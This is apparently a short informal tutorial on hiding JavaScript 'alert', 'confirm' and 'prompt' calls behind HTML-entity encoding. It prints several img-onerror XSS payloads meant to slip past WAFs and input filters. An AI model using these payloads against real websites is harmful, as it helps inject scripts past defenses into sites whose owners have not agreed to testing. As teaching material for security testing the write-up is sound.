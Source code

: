 # Intro
## What is Obfuscation
Obfuscation is the practice of intentionally making code or data more difficult to understand or read. thats it

# Whats the Point of obfuscating alert event
First we know what is alert to get to know what we are dealing with
In web development, `alert` is a function in JavaScript that is used to display a dialog box with a specified message and an OK button.
In your web application, let's say you have a login feature. After a user successfully signs in, you might want to provide a welcoming message to greet them. One simple way to achieve this is by using the `alert` function in JavaScript. For example:

```javascript
// Assuming the user successfully signed in
var username = "user123"; // Replace with the actual username
var welcomeMessage = "You have successfully signed in, welcome " + username + "!";
alert(welcomeMessage);
```
In this scenario, after a successful sign-in, the alert function is used to display a personalized welcome message, incorporating the user's username. The message might say something like "You have successfully signed in, welcome user123!".

Sorry for the long example (: but lets dig deep 

# Obfuscation 
using some sources i've found some interesting things like this 
```html
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```
Have you ever seen something like this before? Probably yes, but it becomes incredibly helpful when the alert function is blocked by a WAF or filtration mechs.

so i will provide some script as example if you want to use them, it will be prompt and alert and confirm functions.

# here
<img src=x onerror=&#x63;&#x6F;&#x6E;&#x66;&#x69;&#x72;&#x6D;('XSS')> for confirm
<img src=x onerror=&#x70;&#x72;&#x6F;&#x6D;&#x70;&#x74;('XSS')> for prompt
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;('XSS')> and this is for alert


## Thanks for reading 
why did i write it? because i was bored at 4 AM
